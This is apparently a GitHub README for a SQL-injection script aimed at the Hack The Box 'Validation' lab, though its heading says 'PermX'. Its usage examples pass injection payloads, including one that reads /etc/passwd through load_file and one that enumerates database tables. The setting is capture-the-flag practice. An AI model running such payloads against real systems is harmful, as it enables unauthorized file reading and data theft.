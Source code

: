 # HTB PermX

Script for [HTB Validation](https://www.hackthebox.com/machines/validation) for SQL Injection.

## Usage

```shell-session
❯ python3 sql_injection.py <injection command> 
```

For example:
```
❯ python3 sql_injection.py 'user()'

❯ python3 sql_injection.py 'load_file("/etc/passwd")'

❯ python3 sql_injection.py 'concat(table_name, ":") from information_schema.tables where table_schema = "registration"'
```
